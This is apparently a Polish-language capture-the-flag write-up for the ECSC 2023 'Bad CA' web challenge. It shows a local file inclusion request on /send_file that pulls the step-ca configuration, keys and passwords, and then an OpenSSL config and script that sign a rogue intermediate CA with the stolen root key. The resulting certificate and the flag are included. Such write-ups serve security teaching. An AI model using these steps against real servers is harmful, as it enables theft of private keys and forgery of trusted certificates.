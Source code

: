 # Bad CA - web

![](../images/8f1abe49-94bf-45ed-ba7d-42b95f36dff3.png)

Endpoint `/send_file?path=certs` jest vulnerable na LFI, dlatego z `/send_file?path=/opt/step` można pobrać cały config step-ca, łącznie z certami, kluczami i hasłami do nich.

Potem używając OpenSSL możemy zrobić własny CA i podpisać go root cert'em.

```
[v3_intermediate_ca]
basicConstraints = CA:TRUE
authorityKeyIdentifier = keyid,issuer
keyUsage = critical, cRLSign, keyCertSign
subjectAltName = @alt_names
authorityInfoAccess = @issuer_info

[issuer_info]
caIssuers;URI.0 = https://bad-ca.ecsc23.hack.cert.pl/send_file?path=certs/root_ca.crt

[alt_names]
DNS.1 = example.com
DNS.2 = fkania2.example.com
```

```shell=
#!/bin/sh
openssl genpkey -algorithm RSA -out ca.key
openssl req -new -key ca.key -out ca.csr
openssl x509 -req -in ca.csr -CA ./certs/root_ca.crt -CAkey ./secrets/root_ca_key -CAcreateserial -out ca.crt -days 1825 -sha256 -extfile ca.conf -extensions v3_intermediate_ca
```

Podpisany certyfikat:

```
-----BEGIN CERTIFICATE-----
MIIDfTCCAyKgAwIBAgIUUEKdqZ3+Y1jD1/pmBUsTnG8YBwwwCgYIKoZIzj0EAwIw
QjEbMBkGA1UEChMSRUNTQzIwMjMgQ29ycG9yYXRlMSMwIQYDVQQDExpFQ1NDMjAy
MyBDb3Jwb3JhdGUgUm9vdCBDQTAeFw0yMzA3MjIxMzQxNTVaFw0yODA3MjAxMzQx
NTVaMFIxCzAJBgNVBAYTAlBMMRMwEQYDVQQIDApTb21lLVN0YXRlMRAwDgYDVQQK
DAdTb21lIENhMRwwGgYDVQQDDBNma2FuaWEyLmV4YW1wbGUuY29tMIIBIjANBgkq
hkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0QIWycLEMuIv7yZxRT8uVttvuwW33b55
mRsjRxv82z1dU1hcfBt5ucYVyEtlDtiarAVxhkE5mqRlSmq5FonfzvSfD/G9+x5w
jWenIWuzrXfoVma+ot5CdnRzVjvGYPN22TtxvUpvrlXW5xVdc778BW81iQixmFsv
sYgldYgGWdW2UeJmq/btSZc94+NfA2oUzMlTx/UMicCykKN1Ss+Ffzn0d4ybomL1
99dEKKsZkK2ZUvEL+9kgsECBakXO3Tv/3tzoI1fosgP5+7P/+QSeLrRlwERSoGqj
/dQnSmLURZFtqjrK3xrCC9SVNwVl92iJlrPcdisZbvXsUN5kSdYi9wIDAQABo4IB
GTCCARUwDAYDVR0TBAUwAwEB/zAdBgNVHQ4EFgQUNxpq/T8S6plDkFliLSfMkTTY
CBEwHwYDVR0jBBgwFoAUC7ukl6+bcp8WMb4zjsXsG0t7fIQwDgYDVR0PAQH/BAQD
AgEGMCsGA1UdEQQkMCKCC2V4YW1wbGUuY29tghNma2FuaWEyLmV4YW1wbGUuY29t
MF8GCCsGAQUFBwEBBFMwUTBPBggrBgEFBQcwAoZDaHR0cHM6Ly9iYWQtY2EuZWNz
YzIzLmhhY2suY2VydC5wbC9zZW5kX2ZpbGU/cGF0aD1jZXJ0cy9yb290X2NhLmNy
dDAnBgNVHR8EIDAeMBygGqAYhhZodHRwOi8vZXhhbXBsZS5jb20vY3JsMAoGCCqG
SM49BAMCA0kAMEYCIQDXbmNe1q92uoBpeBMPMVOBrYW4owCF7s6HcHzjEaUyrwIh
APrfxY5P74dh5n/eJtaMmn0CWskrQ1NNneYoGUBOPiLf
-----END CERTIFICATE-----
```

Flag: `ecsc23{this_dns_validation_doesnt_seem_about_right}`